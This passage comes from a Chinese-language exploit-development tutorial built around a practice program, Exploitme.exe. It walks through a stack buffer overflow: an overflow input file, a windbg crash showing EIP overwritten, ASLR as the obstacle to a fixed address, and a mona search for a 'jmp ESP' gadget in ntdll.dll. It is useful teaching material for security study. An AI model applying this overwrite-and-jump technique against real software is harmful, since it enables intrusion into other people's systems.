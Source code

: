 name.dat:

```shell
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbbbcccc
```

### 使用 windbg 进行调试

使用`windbg`加载上面生成的程序`Exploitme.exe`，按`F5`或输入命令`g`，得到以下报错信息

```
0:000> g
(31e0.4f48): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=00000000 ebx=0067b000 ecx=0fce700e edx=755d0334 esi=00c868e8 edi=00c8c2a8
eip=63636363 esp=008ff888 ebp=62626262 iopl=0         nv up ei pl zr na pe nc
cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
63636363 ??              ???
```

查看栈内存，我们希望cccc指向cccc之后的这块内存（当执行完main函数中的ret后，ESP寄存器的值刚好指向这里），我们会在这里填充shellcode。但由于ASLR（地址空间布局随机化，简称地址随机化），两次的ESP值不同，也就意味着我们无法将 cccc 替换为一个固定的地址。

![aslr-for-stack](../pic/Exploitme/aslr-for-stack.png)

不过，可以将 cccc 替换为一个指向 jmp ESP 指令的地址（代码段的指令的地址是固定的），程序执行流就会变成

```plain
ret ——> jmp ESP --> [shellcode]
```

### 使用mona

为了寻找 jmp ESP 指令的地址，我们可以使用 mona 插件

```shell
0:000> .load pykd
0:000> !pykd.info

pykd bootstrapper version: 2.0.0.24

Installed python:

Version:        Status:     Image:
------------------------------------------------------------------------------
* 2.7 x86-32    Loaded      C:\Windows\SYSTEM32\python27.dll  # 注意要选用python2，如果默认指向了python3，可使用 !pykd.select -2.7进行切换


0:000> !py mona jmp -r ESP -m ntdll.dll	# 尝试了 kernel32.dll 没找到符合要求得指令，在 ntdll.dll 中找到了

** You are running pykd.pyd v0.3.4.15. Use at your own risk **

Hold on...
```

